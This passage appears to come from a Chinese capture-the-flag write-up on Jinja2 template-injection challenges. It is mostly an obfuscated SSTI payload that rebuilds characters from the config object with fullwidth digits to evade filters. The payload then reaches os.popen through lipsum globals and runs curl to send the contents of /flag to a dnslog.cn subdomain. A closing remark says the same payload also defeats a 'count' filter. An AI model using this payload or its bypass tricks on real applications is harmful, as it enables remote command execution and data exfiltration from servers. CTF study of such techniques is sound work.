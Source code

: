 ```jinja2
{% set xh=(config|string|list).pop(𝟳𝟰) %}
{% set kg=(()|select|string|list).pop(𝟭𝟬) %}
{% set point=(config|string|list).pop(𝟭𝟵𝟭) %}
{% set mh=(config|string|list).pop(𝟭𝟰) %}
{% set xg=(config|string|list).pop(-𝟲𝟰) %}
{% set glob=(xh,xh,dict(globals=a)|join,xh,xh)|join() %}
{% set fxg=((lipsum|attr(glob))|string|list).pop(𝟲𝟰𝟯) %}
{% set geti=(xh,xh,dict(getitem=a)|join,xh,xh)|join() %}
{% set ox=dict(o=z,s=z)|join %}
{% set payload=(dict(curl=a)|join,kg,fxg,dict(cat=a)|join,kg,xg,dict(flag=a)|join,fxg,point,dict(aorcwf=a)|join,point,dict(dnslog=a)|join,point,dict(cn=a)|join)|join %}
{%if ((lipsum|attr(glob))|attr(geti)(ox)).popen(payload)%}na𝟬h{%endif%}
```

## 372-过滤count

用上题的payload依然可行，看师傅们的wp说是过滤了count，改用length即可，因为我这里用的是全角数字，也绕过去了

